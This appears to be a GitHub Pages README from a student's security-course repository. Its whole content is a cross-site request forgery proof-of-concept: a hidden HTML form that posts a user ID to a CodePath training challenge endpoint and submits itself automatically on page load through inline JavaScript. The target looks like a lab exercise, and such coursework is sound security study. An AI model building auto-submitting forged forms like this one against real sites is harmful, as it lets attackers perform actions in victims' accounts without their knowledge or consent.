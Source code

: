 # JLPlummer79.github.io

    <form name="csrfform" action="https://security.codepath.com/user/csrfchallengtwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="44b8f83b681b706eb2acff708611625dd6a9069cc"/>
      <input type="submit" value="submit"/>
    </form>
    <script> document.csrfform.submit();  </script>
 
